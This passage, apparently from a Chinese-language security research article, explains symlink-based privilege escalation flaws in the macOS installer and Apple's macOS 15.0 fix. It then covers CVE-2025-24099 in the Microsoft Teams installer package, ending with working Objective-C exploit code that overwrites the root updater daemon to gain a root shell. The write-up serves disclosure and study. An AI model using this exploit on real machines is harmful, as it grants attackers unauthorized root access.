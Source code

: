 因此，在打开之前path=/Library/Developer/SDKs/WorkflowExtensionSDK.sdk/Library，攻击者仍然能够/Library/Developer/SDKs/WorkflowExtensionSDK.sdk用符号链接替换父路径组件。  
  
该漏洞利用过程与前一个类似。  
  
第九个补丁  
  
苹果在 macOS 中再次修补了此问题15.0。  
  
如果当前服务是特权服务“system_installd”（PKSIPCurrentProcessCanModifySystemIntegrityProtectionFiles返回TRUE），则无需使用参数“-s”即可启动shove进程：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf3dEZNgOrV7tzoG12W04HhNwKLSsiaxkgz1yvtKkdxZ9fvMQicXAhNg8Rmxe3KSPRziaSHOaZdoicm1w/640?wx_fmt=png&from=appmsg "")  
  
在shove过程中，参数“-s”表示允许符号链接（optionFlags |= 4）：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf3dEZNgOrV7tzoG12W04Hh3VObVXtLvjo2icKWWJYmHV3b1x9zKe7QttwRatoqaYrBZe8f9ibeib9Fw/640?wx_fmt=png&from=appmsg "")  
  
那么如果没有指定参数“-s”，函数-[PKCoreShove _linkResolutionProhibitted]将返回TRUE ：  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf3dEZNgOrV7tzoG12W04Hh2GU4eBiccruKt6IDaSiaIcsRIda7gYz7dX144MDU6Nlwyk1cJsez5v1Q/640?wx_fmt=png&from=appmsg "")  
  
接下来，如果链接解析被禁止，open API 将使用标志“O_NOFOLLOW_ANY”：  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf3dEZNgOrV7tzoG12W04Hhgj5Ficibt9Gpia5QiaPxYD5dvxs5icx4FUXoSeu3MhN5DjZwC636QrCCBIQ/640?wx_fmt=png&from=appmsg "")  
  
同时renameAPI改为，若禁止链接解析则会使用renamex_npflag “RENAME_NOFOLLOW_ANY”：  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf3dEZNgOrV7tzoG12W04HhT2ruOO61lre6pEzAlkrlWRZ2lvEFz0P4XNnVExCa5UVgktCoj4ZzAA/640?wx_fmt=png&from=appmsg "")  
  
CVE-2025-24099：LPE 的另一个变体  
现在一切看起来都很好，但是第三方开发人员签名的 PKG 文件怎么样？  
  
事实上，这是一个变体漏洞，在安装普通的第三方签名软件包时可被利用来获得root权限提升。  
  
问题（例如 Teams_osx.pkg）  
  
让我们以 Microsoft Teams 安装程序包（Teams_osx.pkg）为例。  
  
乍一看，问题存在于postinstall脚本中：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf3dEZNgOrV7tzoG12W04HhPV33rl7KuLN6sHee3oElqBhHofpAsv7CfccglElWmzfU2f5AtqG4gw/640?wx_fmt=png&from=appmsg "")  
  
它使用“ ”注册了一个具有root权限的启动守护进程。开发人员认为，PKG安装后，应用程序路径应该归root所有，普通用户不能修改。${UPDATER_DAEMON_FILE_IN_APP}  
  
然而，通过创建符号链接可以打破这个错误的假设！  
  
攻击者可以先将root拥有的PKG Payload内容重定向到其他位置，然后${UPDATER_DAEMON_FILE_IN_APP}直接在路径“ ”处写入payload，以获取root权限。  
  
漏洞利用和演示（针对 Teams_osx.pkg）  
  
漏洞利用代码如下：  
  
```
#define TEAMS_APP_FOLDER "/Applications/Microsoft Teams classic.app"#define XPC_FOLDER TEAMS_APP_FOLDER"/Contents/TeamsUpdaterDaemon.xpc/Contents/MacOS"#define XPC_EXE_PATH XPC_FOLDER"/TeamsUpdaterDaemon"void exploit_teams_pkg(void) {    mkdir("/Applications/1337.app", 0777);    symlink("/Applications/1337.app", TEAMS_APP_FOLDER);    printf("[*] Waiting for Microsoft Teams classic installation...\npress enter when the installation is done.");    getchar();        unlink(TEAMS_APP_FOLDER);    system("mkdir -p \""XPC_FOLDER"\"");    printf("[*] Writing my LPE payload\n");    [@"#!/bin/sh\ntouch /Library/LPE\n/System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal\n" writeToFile:@XPC_EXE_PATH atomically:TRUE encoding:NSUTF8StringEncoding error:nil];    chmod(XPC_EXE_PATH, 0777);}@protocolDUMMY- (void)ping;@endvoid wakeup_daemon_xpc(void) {    NSXPCConnection *connection = [[NSXPCConnection alloc] initWithMachServiceName:@"com.microsoft.teams.TeamsUpdaterDaemon" options:NSXPCConnectionPrivileged];    connection.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(DUMMY)];    [connection resume];    [connection.remoteObjectProxy ping];    printf("[*] All done, enjoy the root shell :p\n");}
```  
  